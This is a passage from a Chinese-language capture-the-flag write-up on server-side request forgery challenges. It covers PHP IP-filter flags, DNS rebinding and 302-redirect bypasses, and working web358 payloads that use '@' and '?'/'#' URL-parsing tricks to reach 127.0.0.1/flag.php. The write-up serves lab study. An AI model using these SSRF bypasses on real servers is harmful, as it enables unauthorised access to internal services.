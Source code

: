 ```
gethostbyname — 返回主机名对应的 IPv4地址。 
filter_var — 使用特定的过滤器过滤一个变量
FILTER_FLAG_IPV4 - 要求值是合法的 IPv4 IP（比如 255.255.255.255）
FILTER_FLAG_IPV6 - 要求值是合法的 IPv6 IP（比如 2001:0db8:85a3:08d3:1319:8a2e:0370:7334）
FILTER_FLAG_NO_PRIV_RANGE - 要求值是 RFC 指定的私域 IP （比如 192.168.0.1）
FILTER_FLAG_NO_RES_RANGE - 要求值不在保留的 IP 范围内。该标志接受 IPV4 和 IPV6 值。

```

所以url不能是私有地址，需要一个公网ip

利用302跳转和dns重绑定都可以。

dns重绑定就用这个：[dns重绑定](https://lock.cmpxchg8b.com/rebinder.html?tdsourcetag=s_pctim_aiomsg)

不能有内网ip，所以填一个公网ip:

![image-20240904200529637](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409042005669.png)

![image-20240904200513380](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409042005422.png)

### web358

```
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
}
```

这里的正则表示以`http://ctf.`开头，以`show`结尾，即匹配`http://ctf.*show`

最终payload(127.0.0.1也可以换成其他形式):

```
url=http://ctf.@127.0.0.1/flag.php?show
url=http://ctf.@127.0.0.1/flag.php#show

```

原理：
如果不在`ctf.`后面加`@`,解析url时会把`ctf.`也解析成**host**的内容，如果不在`show`前面加`#`或`?`，会把**show**也解析到**path**中，得不到想要的结果

![image-20240904201143679](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409042011821.png)

### web359

我们抓包，发现有个u和returl参数，returl就是关键点

![image-20240904204410132](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409042044204.png)
